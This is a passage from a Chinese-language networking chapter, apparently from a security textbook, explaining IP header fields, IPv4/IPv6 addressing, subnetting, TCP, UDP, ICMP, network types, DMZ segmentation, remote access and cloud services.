**片偏移** 片偏移字段长 13 位，指示数据包中数据的对齐位置。这让接收系统知道如何将所有分片拼接在一起。此字段中的值以双字（即 8 个八位组/字节）为单位。

**生存时间** 生存时间（TTL）字段指示消息在网络上可以存在多长时间才被视为过期。它原本意图以秒为单位衡量，但每个接触该消息的网络设备都必须将此字段减 1。由于数据包可能在一秒内经过多个网络设备，因此该字段的初始定义已不再适用，TTL 实际上指示消息可以经过的网络设备（本质上是路由设备）数量。一旦该字段达到 0，消息将被丢弃，并向发送方返回错误消息。此字段长 8 位。

**协议** 这是一个数值，指示下一个协议是什么。这是一个 8 位字段，告诉接收系统在传输头部中查找什么头部。对于图 2.9 中的数据包，值为 17，这意味着它是一条 UDP 消息。

**校验和** 这是一个 16 位值，用于确定头部是否完整。它定义为头部中 16 位字的 1 的补码和。

**源地址** 这是发送消息的 IP 地址。长度为 4 个八位组。

**目标地址** 这是消息要发送到的 IP 地址。长度也是 4 个八位组。

## 八位组 vs. 字节

你有时会看到使用 _八位组_ 这个术语，并且可能会好奇为什么我们使用 _八位组_ 而不是 _字节_，因为我们指的是长度为 8 位的值。原因是 RFC 编写的目的是为了在任何系统上实现。在定义这些协议时，字节并不总是 8 位。有些字节是 10 位，其他是 12 位，有些是 8 位。为了非常明确，没有使用 _字节_ 这个词。相反，长度为 8 位的值被称为一个八位组。如果使用 _八位组_ 这个词，就不会产生混淆。

## 寻址

IP 版本 4 地址长 4 个八位组。它们通常以句点 (.) 分隔显示。因此，它们有时被称为点分四元组。由于每个值为 8 位，可能的取值范围是 0 到 255。然而，并非所有值（尤其是前两个八位组中的值）都被使用。出于各种原因，有些地址被保留。首先，地址范围 127.0.0.0–127.255.255.255 保留给环回地址。这些地址指的是它们分配给的主机。通常，系统上的环回地址是 127.0.0.1，尽管该范围内的任何地址都可以使用。

RFC 1918 还划出了一些用于专用网络的 IP 地址范围。按照惯例，这些地址在互联网上不可路由。大多数网络都会采取措施阻止来自这些范围的源地址进入其空间，因为它们不应该从网络外部发起。这些专用地址（供任何没有公共 IP 地址的网络使用）的范围是 10.0.0.0–10.255.255.255、172.16.0.0–172.31.255.255 和 192.168.0.0–192.168.255.255。


此外，还保留了其他地址范围。范围 224.0.0.0 到 239.255.255.255 用于多播消息。高于 240.0.0.0 的任何地址也被保留，当前未使用。

转向 IPv6 的原因之一是版本 4 的地址限制。IPv4 可用地址约有 40 亿个。不过，这包括整个地址集。其中，我们首先因为 10.0.0.0 私有地址块而减去了 1600 万个地址。然后，因为高于 240.0.0.0 的地址，我们又减去了超过 2.68 亿个地址。你可以看到 IPv4 地址空间消失得有多快。你可能还注意到，连接到互联网的设备数量正以近乎指数级的速度增加。对此的权宜之计是在网络内部（尤其是家庭网络）使用私有地址范围。

IPv6 使用 16 个字节，而 IPv4 仅使用 4 个八位组。由于以点分八位组形式编写 IPv6 地址（如同 IPv4 那样）会非常笨拙，因此 IPv6 地址采用不同的形式编写。由于一个八位组可以用两个十六进制数字表示，你会看到 IPv6 地址以这种形式表示。这可以节省空间和输入。由于 IPv6 地址中有 16 个八位组，你会遇到的最长地址将是 32 个字符。然而，完整的地址通常用冒号（:）将字节对分隔开。例如，我的一个系统的 IPv6 地址是 fe80::62e3:5ec3:3e06:daa2。

除了将地址分成字节对（如 fe80）之外，你还会注意到地址中间有一部分是一对冒号，中间没有内容。这不是错误。这是一种简写，用来表示中间全是 0。完整的地址将是 fe80:0000:0000:0000:62e3:5ec3:3e06:daa2。省略多余的 0 更简单。

IPv6 有三种不同的地址类型。第一种是单播，指单个系统。任播地址是共享单个地址的一组系统。发送到任播地址的消息将仅传送到任播组中的一个主机。这通常基于路由规则是最近的地址。任何任播地址都将与单播地址具有相同的格式。多播地址看起来与其他地址类似，但其格式基于它们是多播地址以及正在使用该地址的应用程序。例如，你可能会看到像 224.0.0.1 这样的多播地址。

## 子网

理解子网划分可能存在挑战，但这是一个重要概念。其重要性之一在于，你可能需要知道基于子网哪些地址属于你的目标。如果子网边界不正确，你可能会开始针对不属于你目标的系统进行测试。这可能会给你带来很多麻烦。因此，我们将在这里花一些时间来讨论子网是什么以及如何确定子网边界。这涉及一些简单的数学，但希望一旦向你解释清楚，就会变得容易。

IP 地址使用连续地址聚合到网络中。无论我们讨论的是 IPv4 还是 IPv6，这都很重要。这使得路由到这些地址更加容易，因为路由表不必跟踪每个单独的 IP 地址。相反，跟踪的是聚合块。部分正因如此，IP 地址的一部分属于主机，另一部分属于网络。这种地址分段还可以帮助系统知道哪些地址是本地的，意味着通信保留在本地网络上。系统被告知哪些是本地网络、哪些不是本地网络的方式是将子网掩码与 IP 地址配对。

子网掩码长度也是 32 位，表示为点分四元组。要确定 IP 地址中哪部分属于网络，请查看子网掩码中设置为 1 的位。为了更好地理解这一概念，让我们来看看子网掩码的二进制表示。

```
11111111.11111111.11111111.10000000
```

任何值为 1 的位置都属于网络段。你会注意到 1 是从左侧填充的，且没有间隔。因此，子网掩码只能具有某些特定值：0、128、192、224、240、248、252、254 和 255。这是因为每个位置都是 2 的幂，并且我们从左侧的最高有效位开始累加。二进制 10000000 等于十进制 128。11000000 是 192。每次我们将一个位设置为 1，就要加上下一个较低的 2 的幂。查看上面的子网掩码并应用二进制到十进制转换，我们可以看到子网掩码是 255.255.255.128。这意味着只有最后一个八位组的最后 7 位用于主机值。最后一个八位组中的位表示将是 10000000。我们需要在此处开始将 IP 地址应用到子网掩码，以获得地址范围。

使用子网掩码 255.255.255.128 时，无论 IP 地址是什么，我都有两个地址块的可能性。我只能改变最后一个八位组，并且受到限制，因为我不能更改最高有效位位置中的值。这使我得到的范围是 0–127 和 128–255。一旦我知道我的 IP 地址类型，我就知道自己在哪个块中。假设我的 IP 地址是 172.20.30.42，子网掩码是 255.255.255.128。我知道我的地址块必须是 172.20.30.0–127，因为 .42 落在该范围内。

指定网络块的另一种方法是使用无类别域间路由（CIDR）表示法。这意味着不再指示子网掩码，而仅获得前缀位的数量。前缀告诉你哪些位正在用于网络。上面使用的子网掩码转换为 /25，我可以通过指示 172.20.30.42/25 来表示带有 IP 地址的子网。如果你以 2 的幂来思考，使用此表示法实际上会让生活更轻松一些。

假设你想知道特定网络块中有多少个地址，并且你拥有 CIDR 表示法。做出这一判断的一种方法是从已知数量开始。通常，你会看到 CIDR 表示法围绕 /24 区域，即 255.255.255.0 子网掩码，非常常见。如果你想知道有多少台主机，只需为前缀中的每个位变化除以 2 或乘以 2。/24 网络在主机部分（最后一个八位组）中有 256 个可能值。如果进入 /25，这意味着你得到 128 个可能值（因为增加了前缀位，所以除以 2，意味着失去了主机位）。如果向相反方向进入 /23，则翻倍，因为失去了前缀位，意味着它被添加到主机部分。不再是 256，你现在在主机部分有 512 个可能值。

你也可以通过查看每个八位组中的位数，很快了解如何得到更小的前缀值。如果第一个八位组用于网络指定，而所有其他八位组都用于主机值，那么该第一个字节的所有位置都将被填满，这意味着你正在使用 8 位，从而得到 CIDR 指定 /8。同样，如果你使用前两个八位组，则使用 16 位，因此你有 /16。不过，关于子网有一点需要注意，即有两个值不能用于系统。任何网络段中最低的地址都用于网络。任何网络段中最高的地址都用于广播地址。在常见的 /24 网络中，.0 成为网络地址，.255 用于广播。这两个值都不能分配给主机。IPv6 使整个过程更加容易。不再使用子网掩码。相反，CIDR 指定专用于指示哪部分是网络、哪部分是主机。相同的规则适用。网络部分始终从左侧开始，我们从左侧开始填充掩码的位。/50 网络意味着地址的前 50 位是网络指定。这将剩余的 78 位（请记住 IPv6 地址长度为 128 位）留给主机。当然，这将是一个非常大的网络。

## TCP

进入传输层后，我们首先会遇到 TCP。IP 是一种尽力而为协议，意味着尽力将消息从一个系统传输到另一个系统，而 TCP 被认为具有保证传输功能。这也许没有听起来那么令人印象深刻。显然，TCP 本身无法在网络发生灾难性故障的情况下确保传输。相反，这意味着协议中存在机制来跟踪所有发送的消息，如果某条消息没有到达另一端并在那里得到确认，则消息将被重新发送。

TCP 的协议数据单元称为段。

迄今我们所查看的层都有寻址形式。传输层也不例外。之前的地址与系统相关，以确保消息从一个系统传输到另一个系统；而在传输层，我们开始关注将消息传递给应用程序。传输层协议提供端口作为寻址应用程序的方式。它们还提供复用。如果没有端口，我们就无法在同一系统上有多个应用程序监听。有了端口，我们就拥有与其他系统进行大量对话的能力。

就像我们对 IP 所做的那样，我们将查看为 TCP 定义的头部。TCP 在 RFC 793 中定义，并于 1981 年编写，这意味着 TCP 已经存在了很长时间。在所有这些时间里，头部都保持不变，并且自


headers 启用了协议的功能，功能本身也没有改变。图 2.10 显示了数据包捕获中的 TCP 头部。

### 图 2.10 TCP 头部



您将在捕获中看到以下字段。

- **源端口** 源端口是流量在发送方源自的端口。这很重要，因为对话不是单向的。为了让接收方能够响应，它需要一个端口来发送回去。在响应消息时，源端口和目标端口会互换。源端口长度为 16 位。

- **目标端口** 目标端口是与应用程序关联的端口。每个对话都有客户端和服务器端。服务器端将应用程序绑定到监听端口。客户端将此端口作为目标端口发送数据。如果服务器从服务器向客户端发送，目标端口是分配给与服务器通信的应用程序的临时端口。目标端口（如源端口）长度为 16 位。

- **序列号** 序列号是保证传输的部分之一。这是一个 32 位数字，在会话启动时设置为随机值。它随发送的字节数递增。使用序列号，发送方告诉接收方此消息在对话中的位置。您将在示例中看到序列号显示为 0。这样做的原因是数据包捕获软件显示 0，然后显示相对序列号，后者更易于跟踪。

- **确认号** 确认号是对话中序列号的另一端。序列号由发送方设置，而确认号由接收方设置。确认号设置为接收方期望接收的下一个字节号。在实践中，这意味着字节数加 1 后发送。这告诉发送方接收方在通信流中的位置，从而让发送方知道传输过程中是否有任何内容丢失。

- **数据偏移** 数据偏移是一个 4 位值，指示 TCP 头部中 32 位字的数量。它让系统知道在哪里查找数据。这是必要的，因为 TCP 头部长度可变。图中未显示此字段，但它是定义的 TCP 头部。

- **保留字段** TCP 头部中有 6 位保留供将来使用。

- **控制位** 有 6 个标志位用于指示消息的处理方式。SYN 标志是同步标志，表示序列号已设置并应被记录。ACK 标志与确认号相同。URG 标志表示紧急指针包含重要数据。PSH 标志表示数据应推送而非缓冲。RST 标志重置连接，如果接收到看似有误的消息，可能会发生这种情况。FIN 标志表示对话结束，没有更多数据可发送。

- **窗口** 窗口字段中的值告诉接收方发送方愿意接收多少字节。这允许加快和减慢通信速度。较小的窗口大小意味着需要更多确认，这可能表明通信信道不可靠。较大的窗口大小意味着信道可靠，因此不需要频繁检查。窗口字段为 16 位。

- **校验和** 这是一个 16 位字段，用于确保通信未损坏。这是一个对头部和文本计算的反码值。

- **紧急指针** 16 位紧急指针指示紧急数据之后的下一个字节值。这与序列号值对齐。基本上，紧急指针表示从当前序列号直到紧急指针中的值之间的数据是紧急数据。

- **选项** 这些是可变长度的头部字段。头部必须按 32 位字对齐。如果选项导致头部长度不足以实现该对齐，则需要填充位来填充头部的其余部分。

TCP 使用多种机制来确保可靠服务。首先是 TCP 是面向连接的。连接使用所谓的三次握手建立。握手确保对话的双方都处于活动状态，因为预期它们会响应。三次握手中的第一个消息是 SYN 消息。设置了 SYN 标志，以及初始序列号（一个随机值）。对 SYN 消息的响应是确认消息。这设置了 ACK 标志并将初始序列号加 1，表示已接收第一条消息。在同一段中，还设置了 SYN 标志和序列号。请记住，对话是双向的，因此双方都必须跟踪自己在对话中的位置。每一方都会跟踪自己一方的序列号和另一方的确认号。握手中的最后一条消息只是设置了 ACK 标志，且确认字段会递增 SYN/ACK 消息中设置的序列号。

由于预期双方会根据对方提供的信息响应消息，我们可以确信消息已被预期方接收，且双方都是他们声称的身份。如果任何一方试图伪造对话，它们将无法接收消息，因此也无法正确响应。

帮助确保可靠性的下一个机制是序列号。由于序列号维护已发送的字节数，确认号告诉发送方传输过程中是否有数据丢失。如果丢失，发送方知道需要重新传输。对话的每一方都知道自己在哪里以及对方在哪里。TCP 根据需要重新传输，直到定义的最大值。

此外，序列号和确认号确保接收方处的消息顺序正确。如果消息到达顺序不一致，序列号会指示是否应为丢失的消息等待。这也是保证传输的一部分——确保消息不仅按预期到达，而且到达时顺序正确。不过，所有这些都会带来开销。并非每个应用程序都需要 TCP 提供的保证传输模型。

## UDP

UDP 提供另一种传输模式，不具有 TCP 那样的开销。它是一种更轻量级的协议，不提供传输保证。使用 UDP 发送的消息只是被发送到网络上，希望它们能到达目的地，因为网络协议 IP 会处理一切。随着更轻量的设计，建立连接和确保消息送达等方面的开销非常小。从协议角度来看，消息接收顺序也不太重要。如果应用程序关心这些细节，它可以自行管理。

UDP 的 RFC 是 RFC 768。整个 RFC 只有两页多一点，这应该能说明协议有多简单。您可以在图 2.11 中看到 UDP 头部的示例。有四个头部字段。它们全部为 16 位长度。不出所料，其中一半是源端口和目标端口。有趣的是，源端口被视为可选字段。原因是由于没有连接，服务器可能永远不会响应。这完全取决于所使用的应用程序，这与 TCP 不同。TCP 要求源端口，因为总会有响应，即使只是为了完成三次握手。

### 图 2.11 UDP 头部




有趣的是，也许RFC 768并未定义对关闭UDP端口的响应。事实上，未提及关闭端口。唯一相关的提及关闭端口响应的地方是在互联网控制消息协议（ICMP）的RFC中。即便如此，也只有端口不可达的代码。没有指示其适用的协议。因此，使用UDP端口完全不可靠。如果你没有收到响应，可能是因为数据包丢失或被丢弃。也可能是应用程序忽略了该消息。也可能是不需要响应。这些都是合法场景，你不会收到对UDP端口消息的响应。

UDP适用于需要快速设置和传输的应用程序。例如，流媒体视频和音频与UDP配合良好。它们与TCP配合不佳。一个重要原因是，使用UDP时，由应用程序按需对消息进行重新排序。如果流媒体视频中的数据报（即UDP的PDU）乱序到达，应用程序将直接丢弃它。流媒体音频也是如此。想象一下，如果你正在通过互联网与某人交谈。你向另一端的人说了“你好”。实际上，这个词可能全部在一个消息中传输，但假设每个字母的声音都在其自己的消息中传输。

如果你收到的消息发音为 l、h、l、o，然后是 e，听起来会是什么样子？我们的大脑非常擅长拼凑缺失的数据并构建看起来完整的东西，但你的大脑可能无法理解这个词发出的声音。即使你的大脑能理解它，也会听起来很奇怪，你的整体体验也会很糟糕。当然，视频也是如此。如果晚到的数据包被插入到你正在观看的视频流中，画面会显得非常跳跃。

消息为何会乱序到达？毕竟，如今我们拥有非常可靠的互联网服务。好吧，消息乱序到达有几个原因。假设你正在使用UDP向某人发送数据流。你的数据正通过路径 A >> B >> C >> D 发送，D是你的目的地。然而，假设在你的消息即将到达C时，C出现了故障。网络会纠正并绕过C，走另一条路径，也许是 A >> E >> F >> D。然而，故障发生时至少有一条消息正在传输中，你无法知道该消息只是因为故障而被丢弃了。即使不是故障而消息被丢弃，也可能一条消息走了一条路线，而较晚的消息走了一条碰巧更快的另一条路线。较晚的消息可能比先前的消息更早到达。消息乱序到达甚至完全丢失的原因有很多。网络中发生了许多用户不知情的事情。这就是为什么大多数应用程序依赖TCP。大多数应用程序依赖按正确顺序呈现的消息。实时协议对正确顺序不那么在意，因此它们使用UDP。

## 互联网控制消息协议

ICMP在协议中是一个特例，因为它不承载用户数据。相反，它与其他协议一起工作以提供错误和控制消息。当网络上发生意外情况时，设备会生成ICMP消息发回给源设备，以告知它们出现了问题。它确实位于IP之上，因为它需要IP的寻址，但它被认为与IP一样属于互联网层。这也使它成为一种有些不寻常的协议，因为它大致位于互联网层之上，但又不是传输层协议。

ICMP在RFC 792中定义，该文档指定了一个8字节的报头。这包括类型和代码字段，它们传达ICMP所需的基本信息，一个校验和字段，然后是4个标记为“报头其余部分”的字节。类型和代码各占一个字节，校验和占2字节。报头其余部分字段包含与类型和代码相关的数据。类型和代码定义了这4个字节中包含的内容。

类型消息指示正在发送的消息。它可能具有引用回显应答、回显请求、目的不可达、源阻塞或时间戳消息的值。每种类型可能有多个子类型。不同的子类型由代码字段指定。例如，目的不可达类型具有代码，用于指示确切的目的地是什么。这可能是一个网络、主机或端口。它可能指示它们不可达，或者可能指示触发ICMP消息的消息在管理上被禁止。

任何进行安全测试或渗透测试的人，最常通过使用ICMP回显请求和回显应答消息来接触ICMP消息。这些由ping程序使用。你也可以使用traceroute程序来获取到目的地的网络路由。traceroute程序依赖于两个ICMP消息。第一个是ICMP类型11，即传输超时。这意味着消息的TTL字段已递减到零。当traceroute完成时，程序期望收到ICMP类型3（目的不可达）消息，很可能带有代码3，表示目的端口不可达。

## 网络架构

我们讨论过拓扑，它们有助于获得网络的概念性、逻辑性表示。然而，网络还有更大的背景。将拓扑与数据流和其他网络元素结合起来，将使你获得网络架构。这描述了使用的协议及其使用位置，你还可能将安全边界作为网络架构的一部分。你还必须面对多地点的概念。

从安全角度来看，还有其他需要考虑的要素，包括隔离。这可能意味着根据使用情况和风险对系统进行分类。有些系统，特别是那些需要直接面向互联网的系统——这意味着外部用户将作为正常操作的一部分向这些系统建立网络连接——可能会与用户所在的系统甚至存储敏感数据的系统保持分离并受到保护。

## 网络类型

就我们在此的目的而言，我们将根据网络的地理位置对网络类型进行分类。逻辑图很好，但它不能让你了解一切的位置。使用逻辑图，你可能会觉得系统非常接近，但实际上它们可能相隔数英里。因为现代网络技术可以说可以掩盖各种问题，你可以拥有相隔数百英里的系统，看起来好像它们在同一个物理网络段上。

因此，我们可以根据网络的地理位置讨论不同类型的网络。

### 局域网（LAN）

LAN正是其名称所暗示的那样。所有系统都是本地的，可能在同一个房间、建筑物或同一层楼。这些系统处于同一广播域或冲突域中，这意味着系统可以使用第2层通信而无需路由到其他网络。然而，它们不一定使用第2层通信。它们仍然可能是本地的，但在单独的网络段上，这意味着这些网络段之间的流量需要路由。

### 虚拟局域网（VLAN）

VLAN是一种局域网，其中第2层隔离由软件/固件处理，而不是物理处理。这意味着一些交换机可以被分段为独立的网络，一些系统在一个网络段（VLAN）上，一些系统在另一个网络段（VLAN）上。要从一个VLAN到达另一个VLAN，流量必须跨越第3层边界（路由器）。这种隔离有助于维护网络性能。它还有助于网络的逻辑组织，使同一组流量策略可以应用于整个VLAN。最后，还有一些安全考虑。使用VLAN，你可以在网络段之间放置防火墙。虽然你可以运行基于主机的防火墙，但维护单个网络防火墙并根据每个网络跨越第3层边界的需求限制流量要容易得多。

### 广域网（WAN）

WAN是节点相隔10英里以上的网络。任何互联网服务提供商都会有WAN。此外，企业可能拥有WAN，其中有网络连接在其不同办公地点之间提供链路。在地理上分散的位置之间提供这种连接有多种方式，包括虚拟专用网络、私有网络电路，或者只是隧道化流量而不像虚拟专用网络那样对其进行加密。

### 城域网（MAN）

MAN介于LAN和WAN之间。如果一家公司拥有多个建筑物的校园，你可能会遇到这种情况。每个建筑物都会有LAN（或可能多个LAN），但连接所有建筑物之间的LAN将是MAN。如果一个城市在城市各处有连接其不同办公室和建筑物的链路，情况也是一样的。这些连接将是MAN。本质上，任何比WAN小但比LAN覆盖更大地理区域的东西都将是MAN。


## 隔离

网络隔离是一个重要概念。事实上，这是一种广泛认可的方法，用于分离网络元素以保护敏感数据。此外，它还可用于将可从外部访问的系统与严格的内部系统分开。实现这种隔离有几种方法。

一种常见的方法是使用非军事区（DMZ）。这是一个网络段，任何不受信任的系统都会被放置在此。访问此网络段可通过防火墙或访问控制列表进行严格控制。在图 2.12 中，您可以看到一个简单的图表，展示了这可能是什么样子。例如，DMZ 可能托管 Web 服务器等系统。它还可能托管电子邮件网关，以过滤传入消息，然后再将其转发到内部电子邮件服务器。DMZ 有许多用途，可以将不受信任的系统与网络的其余部分隔离。不受信任的系统是指任何来自互联网的人都可以访问的系统，这意味着它可能通过暴露的服务以某种方式被攻破。防火墙和/或访问控制列表防止外部人员访问内部系统。它还防止 DMZ 内部的任何系统与企业内部的系统进行通信。

### 图 2.12 DMZ 网络



使用 DMZ 是网络隔离，配合严格的访问控制和围绕网络访问的限制性规则。网络分段也可以隔离其他系统，而不一定需要引入防火墙规则或访问控制列表。您可以看到，还有针对内部服务器和桌面网络的网络段。可能还有许多其他网络段。它们中的每一个都有不同的信任级别。例如，可能还会有一个访客网络，允许供应商和其他访问者拥有网络访问权限，但无法访问任何内部系统。

## 远程访问

让我们跳进 *TARDIS* 片刻，回到很久很久以前，远程访问过去是通过调制解调器和拨号访问处理的。那些日子早已一去不复返，尽管远程员工访问内部资源的需求也许比过去更加迫切。不过，如今远程访问通常通过互联网进行处理。这通常不会通过公开的互联网进行处理，而是通过使用加密来实现。虚拟专用网络（VPN）是一种从远程位置访问内部网络的方式。不过，VPN 并非全部相同。实现这种远程访问有不同的方式。

在某些情况下，远程访问是卫星办公室。在这种情况下，站点之间直接私有线路可能没有意义。相反，网络提供商可能会在其网络内提供某种方式，以便从一个位置到达另一个位置。例如，这可以通过多协议标签交换（MPLS）来实现。MPLS 提供了本质上是一个从一个位置到另一个位置的隧道，方法是将流量封装在标签内，使流量从一个位置切换到另一个位置。

更常见的是，至少就数量而言，存在用户到网络连接的需求。即使在这里，也有多种方式来完成该任务。一种方法，在目前已经存在数十年，是 IPv6 工作的一部分。IP 安全（IPSec）是一组扩展，部分提供从一个位置到另一个位置的加密。IPSec 附带了一系列协议，这些协议不仅提供加密，还提供消息身份验证、用户身份验证和密钥交换。因为 IPSec 不是 IPv4 的固有部分，所以需要使用某种其他机制才能在 IPv4 网络上实现。这通常需要在网络堆栈中插入某种东西来拦截正在发送的流量，并应用适当的 IPSec 策略。

另一种 VPN 连接使用大多数人都熟悉的技术。Web 连接通常使用传输层安全性（TLS），这是 Web 流量加密的当前实现，取代了安全套接字层（SSL）。由于这是一种广为人知且常用的加密方法，公司通常拥有实施这种类型 VPN 所需的许多基础设施要求，例如证书颁发机构。此外，这种类型的 VPN 通常使用 Web 浏览器部署，而不是较重的应用程序安装。

## 云计算

计算世界长期以来一直像钟摆一样，尤其是在计算能力所在的位置方面。几十年前，在 20 世纪 60 年代和 70 年代，当公司有计算需求时，会去服务局。这是因为大型机的价格远高于大多数公司能够负担或合理化的开支。企业必须将信息托付给这些服务局，以便完成他们的工作，无论是发薪、邮件列表数据合并，还是其他任何需求。

当个人电脑（PC）成为一种事物时，公司可以购买一台并拥有自己的计算机系统来运行他们需要执行的作业。这意味着当时所知的所有数据处理都可以收回内部。因此，钟摆从外包转向了内部化。最终，PC 的成本降低，企业能够负担多个系统，因此数据存储在单个系统上，或者至少存储在用户办公桌上的软盘上。

后来，钟摆又转向将更多来自大型机的终端放在用户办公桌上，再次实现集中数据存储。当万维网被创建，企业开始认识到拥有全天候互联网连接的价值时，他们使用托管提供商来外包网站等功能，其中至少可能有营销材料，如果不是其他业务数据的话。当互联网接入变得非常便宜和普遍时，企业将托管收回内部。

这一切都在说，我们现在又回到了这样一个点：许多企业都选择外包。毕竟，有这么多用户在线，企业可以看到其系统的大量流量。此外，外包使可从外部访问的系统远离企业网络。这意味着攻击者无法攻破可从外部访问的系统，并将其用作跳板来访问网络上的其他系统，包括可能存储个人信息的桌面，甚至是敏感的业务数据。

当今的外包形式是云计算。这随着时间的推移而不断演变。最初有托管提供商，公司承担硬件和所有基础设施的成本，将这些硬件和基础设施提供给不想自行托管系统的公司。这些硬件有时专用于租用它提供服务的企业，这使得难以收回硬件成本，同时仍然让选择托管提供商的定价合理。

后来出现了像 Amazon 和 Google 这样的企业，它们拥有大量有时处于闲置状态的系统场。这些公司开发了服务，允许企业使用这些闲置系统用于自己的目的。因为所有这些服务都通过互联网提供，而不是本地部署，所以据说它们可在云上使用。这些云计算服务有多种形式。第一个，也是今天大量人使用的一种，是存储即服务（SaaS）。

存储即服务是非常基本的远程磁盘功能，既可以面向用户，也可以面向企业。企业更可能使用基础设施即服务（IaaS）或平台即服务（PaaS）。它们也可能使用软件即服务，尽管这也可以面向家庭用户。

### 存储即服务

如果您使用的是 Apple 设备，您可能正在使用存储即服务。您拍摄的任何照片都存储在 iCloud 中。您的音乐可能也存储在那里。您创建的文档也可以存储在 iCloud 中。如果您使用的是 Android 设备，您很可能也在使用云端


存储解决方案，具体取决于供应商。Android 设备并不总是默认使用云存储，但通常可以将数据存储到 Google Drive、Google 的存储即服务解决方案，或另一供应商提供的存储中。

存储即服务有大量用途，包括备份，以及无论您身在何处或使用何种设备都能访问数据的能力。图 2.13 显示了 Google Drive 界面的一部分。使用 Google Drive，我能够在不同的电脑和平板电脑上查看文档，具体取决于我当时的需求。例如，这对于进行课堂作业的研究很有用。我可以在笔记本电脑上搜索文档，下载研究论文的 PDF 文件，然后将它们存储在我的 Google Drive 账户中，之后可以在平板电脑上打开并舒适地阅读。

### 图 2.13 Google Drive


一些存储即服务提供商通过 Web 界面或系统上的插件为您提供存储访问权限，以便您可以在文件资源管理器上下文中查看所有内容。但并非总是如此。例如，Apple 不允许您直接访问 iCloud 中存储的所有内容，无论是通过 Finder 还是 Web 界面。相反，您必须使用处理数据的应用程序来管理存储的不同部分。

当然，使用云存储提供商也有弊端，任何曾涉及其个人照片从云存储提供商处被泄露和窃取的名人都可以告诉你这一点。要一次性收集大量数据，不需要攻破大量系统。攻击者只需攻破存储提供商即可。这就要求提供商确保有足够的控制措施，防止未经授权的用户获得访问权限。此外，提供商还被期望防止数据泄漏。这可能意味着授权用户无意中访问了他们不应有权访问的文件。

### 基础设施即服务

企业为了维持运营和高效所需的所有服务，可能会在必要的硬件上花费大量资金。不仅将所有硬件成本加在一起后，硬件系统本身就很昂贵，而且支持硬件所需的基础设施——电力、地面空间、网络、制冷系统、消防系统——成本也非常高。请记住，最佳实践通常建议进程隔离，即系统不一定会运行多个应用程序。相反，邮件服务器拥有自己的硬件，Web 服务器拥有自己的硬件，以此类推。所有这些成本加起来都非常可观。

虽然虚拟化自 20 世纪 80 年代就已存在，但真正让硬件性能足够强大、软件进化到能够真正支持在单台硬件上运行多个虚拟系统，也不过是最近十年左右的事情。消费级虚拟化已经存在很久了，但企业一直无法有效利用该软件，因为它们可能需要管理成百上千个系统。大量小型虚拟机监控程序在大规模管理方面更加困难。拥有运行那么多虚拟机（VM）的管理能力是必不可少的。

Amazon、Google 和 Microsoft 等云服务提供商大量使用虚拟机，使用户能够在提供商拥有和维护的硬件上运行系统。这有潜力使企业的基础设施更具成本效益。需要该系统的企业无需支付硬件成本或与拥有硬件相关的任何其他成本。此外，尤其是中小型企业，可能负担不起具有冗余和容错功能的高端电源管理，或者高端网络、制冷或消防系统。他们甚至可能找不到能负担得起的高技能人员来维护所有系统。使用这些提供商可以帮助分摊所有使用这些服务的人的成本。

当然，与获取硬件系统并对其进行配置相比，使用云服务提供商设置实例几乎不需要任何时间。如果您需要基础设施系统，请前往计算提供商的门户，选择所需的操作系统，然后选择硬件规格——内存大小和磁盘空间。图 2.14 显示了 Amazon Web Services (AWS) 通过其弹性计算云 (EC2) 提供的可用系统的一小部分示例。有多种 Linux 发行版以及不同版本的 Windows 可供选择。

### 图 2.14 Amazon Web Services

| OS/镜像 | 详细信息 | 操作 | 架构 |
|---|---|---|---|
| Microsoft Windows Server 2016 Base - ami-6d5aebf1 | Microsoft Windows 2016 Datacenter 版，[英语]... | 选择 | 64 位 |
| Deep Learning AMI (Ubuntu) Version 9.0 - ami-0fda6d77 | 预装在独立虚拟环境中的深度学习框架的最新二进制文件：MXNet、TensorFlow、Caffe、Caffe2、PyTorch、Keras、Chainer、Theano 和 CNTK... | 选择 | 64 位 |
| Deep Learning AMI (Amazon Linux) Version 9.0 - ami-9f4a9b9e | 预装在独立虚拟环境中的深度学习框架的最新二进制文件：MXNet、TensorFlow、Caffe、Caffe2、PyTorch、Keras、Chainer、Theano 和 CNTK... | 选择 | 64 位 |

当然，Amazon 并非唯一提供此类服务的公司。还有几家其他提供商提供相同类型的服务，包括 Microsoft、Google 和 Digital Ocean。使用这种方法，您可以在一个下午内启动一组基础设施系统来支持完整的 Web 应用程序。您还可以获得完整的安全解决方案，其中包含防止攻击者获得未经授权访问的策略。

虽然提供商会尽最大努力帮助客户保持安全，但这最终仍取决于客户端的正确配置。例如，Microsoft 拥有网络安全组，允许客户创建规则以允许和禁止流量进入虚拟系统。客户很容易创建错误的规则，而 Microsoft 实际上无法阻止该客户自食其果。

### 平台即服务

